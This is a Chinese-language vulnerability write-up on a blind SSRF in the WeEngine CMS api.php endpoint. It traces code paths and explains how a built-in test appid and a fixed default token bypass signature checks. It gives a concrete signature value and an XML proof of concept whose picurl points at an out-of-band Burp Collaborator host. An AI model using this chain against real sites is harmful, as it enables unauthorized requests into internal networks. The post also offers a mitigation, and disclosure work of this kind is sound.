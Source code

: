 微擎最新版前台某处无回显SSRF漏洞
------------------

0x0 前言
------

 [代码审计之某通用商城系统getshell过程](https://mp.weixin.qq.com/s/rSP8LQJpIkP-Ahljkof5sA),续之前这篇文章v1.8.2版本，这次分享一个最新版v2.7.6 相对来说比较鸡肋的无回显SSRF，漏洞不是最主要的，主要是分享下自己的审计过程。

> 写文章还有补天的粽子领就很开心。

0x1 影响版本
--------

经过测试应该是通杀到最新版的，不过不同版本利用方式有些不同，下面将从v1.8.2版本开始分析然后过渡到v2.7.6版本，来构造出对应的POC。

0x2 漏洞点
-------

v1.8.2版本系统安装目录下的根目录文件: `api.php`

662 line:`analyzeImage`函数,直接将`$message['picurl']`传入`ihttp_get`函数,结合前篇我们文章的分析，这个函数是采用了`curl`请求并设置跟随的,如果我们可控`$message['picurl']`那么这里就会是一个支持任意协议，但是没回显的SSRF。

> 这个漏洞可玩性与[UEditor SSRF](https://paper.seebug.org/606/)差不多，不过这个属于Blind类型的。

![image-20210615163531485](https://shs3.b.qianxin.com/attack_forum/2021/06/attach-7fa72fafcabacd66b9efb59c08fa8ca5160d4223.png)

我们看一下,`$message`是否可控

![image-20210615164452887](https://shs3.b.qianxin.com/attack_forum/2021/06/attach-3829688d5d1ee2fdcd5e878b0caf6908478320a7.png)

可以看到在`start`函数里面获取了POST的内容然后进入`$this->account->parse`函数进行解析

251 line: 位于`/f ramework/class/account/account.class.php` 的`parse`函数

```php
    public function parse($message) {
        global $_W;
        if (!empty($message)){
            //解析内容
            $message = x ml2array($message);
            $packet = iarray_change_key_case($message, CASE_LOWER);
            $packet['from'] = $message['FromUserName'];
            $packet['to'] = $message['ToUserName'];
            $packet['time'] = $message['CreateTime'];
            $packet['type'] = $message['MsgType'];
            $packet['event'] = $message['Event'];
            switch ($packet['type']) {
                case 'text':
                    $packet['redirection'] = false;
                    $packet['source'] = null;
                    break;
                case 'image':
                    # 这里直接赋值PicUrl
                    $packet['url'] = $message['PicUrl'];
                    break;
        ....
        return $packet;
    }
```

跟进`x ml2array`,很简单就是解析x ml格式的内容,微擎官方文档[消息概述](https://www.kancloud.cn/donknap/we7/134649)里面就给出了使用案例。

[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-bb730e8b0b1bd1239431181e5b2fb8ba423a6705.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-bb730e8b0b1bd1239431181e5b2fb8ba423a6705.png)

到这里就可以确定`$message['picurl']`是直接从POST的数据包中提取然后没有任何过滤进入到`ihttp_get`函数的，从而造成了SSRF漏洞的。

下面就是如何进行漏洞的触发。

0x3 触发漏洞
--------

当我们访问`http://localhost:8887/wq2/wq2/api.php`，要确保能走进漏洞函数，首先就要先进入到`start()`函数。

![image-20210615170945120](https://shs3.b.qianxin.com/attack_forum/2021/06/attach-5b82001f23569a5195fd3602871a98dce5a50601.png)

这里需要绕过前面判断,其实也很简单。

```php
if(!empty($_GPC['appid'])) {
    $appid = ltrim($_GPC['appid'], '/');
    if ($appid == 'wx570bc396a51b8ff8') {
        $_W['account'] = array(
            'type' => '3',
            'key' => 'wx570bc396a51b8ff8',
            'level' => 4,
            'token' => 'platformtestaccount'
        );
    } else {
        $id = pdo_fetchcolumn("SELECT acid FROM " . tablename('account_wechats') . " WHERE `key` = :appid", array(':appid' => $appid));
    }
}
```

我们通过传入`api.php?appid=wx570bc396a51b8ff8`,便能成功构造出一个`$_W['account']`出来，绕过上面所说即如下的两个非空判断。

```php
if(empty($_W['account'])) {
    exit('initial error hash or id');
}
if(empty($_W['account']['token'])) {
    exit('initial missing token');
}
```

继续向下走，还需要绕过`$this->account->checkSign()`,继续跟进:

![image-20210615171407102](https://shs3.b.qianxin.com/attack_forum/2021/06/attach-f6b30998448e1e61082676c541965feb949556c8.png)

可以看到,这个Sign其实是固定的，所需要的3个信息分别为`$token, $_GET['timestamp'], $_GET['nonce']`,这里`$token`就是上面程序预留的信息值为：`platformtestaccount`,其他两个不传入留空值即可。

29 line:`framework/class/account/weixin.account.class.php` 的`checkSign`函数

![image-20210615171519590](https://shs3.b.qianxin.com/attack_forum/2021/06/attach-3df36415161eb73b70a109bfc3bac7d2aba00e49.png)

那么我们只要传入`signature=976a497ee3f68bc655ddcf4e7e7aab97d117ef0a`即可绕过`checkSign`函数。

然后回到`api.php`继续向下执行,182 line,对`$message`进行分析,跟进该函数。

```php
$pars = $this->analyze($message);
```

![image-20210615172420838](https://shs3.b.qianxin.com/attack_forum/2021/06/attach-01c1b9122aa2080a0f6c456b479dcf3ff977c060.png)

最终就会进入我们上述漏洞点`analyzeImage`函数，造成SSRF。

0x4 POC 验证
----------

![image-20210615172743080](https://shs3.b.qianxin.com/attack_forum/2021/06/attach-b9e3695988f633888bfc31da208a9b29274b4215.png)

可以看到构造如下格式，便可成功触发。

```php
<x ml>
<ToUserName><![CDATA[toUser]]></ToUserName>
<FromUserName><![CDATA[fromUser]]></FromUserName>
<CreateTime>12345678</CreateTime>
<MsgType><![CDATA[image]]></MsgType>
<picurl><![CDATA[http://ssrf.l3pekm70n3nb5y4hhtmopdlphgn9by.burpcollaborator.net/]]></picurl>
</x ml>
```

0x5 出现问题
--------

我简单看了一下Gitee上该系统的最新版2.7.6的代码[api.php](https://gitee.com/we7coreteam/pros/blob/master/api.php)，发现漏洞点还是存在的。

![image-20210615173107051](https://shs3.b.qianxin.com/attack_forum/2021/06/attach-0b41391608adde7a85fa785382fa9dba1bed50da.png)

但是我在网上找了几个最新版的站打了下,发现并没有成功。

![image-20210615173234710](https://shs3.b.qianxin.com/attack_forum/2021/06/attach-a0f7652d5d907c6cda9087cf5db2d1d9d498b760.png)

尝试删减一些参数，可以得到原因是没进入`start`函数就结束了,通过debug发现问题主要是在

在初始化`$this->account = WeAccount::create($_W['account']);`时会调用到这个`getAccountInfo`函数，这里对内置的测试用户做了个判断，导致进入了`$this->openPlatformTestCase();`而这个函数最终都是走入了`exit()`，所以这里我们不能使用这个账户。

```php
    protected function getAccountInfo($uniacid) {
        //针对测试用户做了判断,$this->openPlatformTestCase();
        if ('wx570bc396a51b8ff8' == $this->account['key']) {
            $this->account['key'] = $this->appid;
            $this->openPlatformTestCase();
        }
        $account = table('account_wechats')->getAccount($uniacid);
        $account['encrypt_key'] = $this->appid;

        return $account;
    }
```

0x6 解决问题
--------

回到`api.php`

![image-20210615183229733](https://shs3.b.qianxin.com/attack_forum/2021/06/attach-82be3d0f1c7d7f79d73e924c0daaccd3d0df3800.png)

可以看到除了测试用户,我们也可以通过传入`$id`来获取account，跟进`uni_fetch`函数。

![image-20210615184419904](https://shs3.b.qianxin.com/attack_forum/2021/06/attach-882760bab896d8df4d37f660d4a898c82d1ae234.png)

查询account获取id=1的信息

![image-20210615184644694](https://shs3.b.qianxin.com/attack_forum/2021/06/attach-6412f051f43c429865263d822b3439ab2d80215b.png)

继续跟下去，最终你会发现token其实存储在了ims\_core\_cache表中，并且只有唯一一个，这个Token值是固定的。

> 这个信息是从`/data/db.php`获取的，也就是初始化的默认数据，刚好这个值不是随机生成的，所有版本都是一样的。

![image-20210615190136424](https://shs3.b.qianxin.com/attack_forum/2021/06/attach-904bb4672ca821c42b5dd95a9b29c351ff140196.png)

相关调用栈如下:

![image-20210615190154149](https://shs3.b.qianxin.com/attack_forum/2021/06/attach-8131913600f0e584d3d7ac720e5d16ded6555460.png)

所以我们只要重新获取一下signature就行了，即如下

![image-20210615190418036](https://shs3.b.qianxin.com/attack_forum/2021/06/attach-b91f4af981ec671af4affe4b86b870b43f2296f0.png)

0x7 新POC
--------

![image-20210615191418245](https://shs3.b.qianxin.com/attack_forum/2021/06/attach-3c5ca1231132d2321c4b5996d61a1e3f4bb0536f.png)

0x8 总结
------

 本文回顾了以前的文章，在此基础上对新版本进行类似漏洞的挖掘，遇到了版本差异导致的问题，尝试解决的时候，发现了关键的检验参数Token存在默认值，导致可以直接构造，完成了利用。最后，关于临时修复方案，账户是可以在后台进行删除的，步骤分别是"所有平台"-&gt;放入回收站-&gt;彻底删除，这样就可以避免猜测到Token值。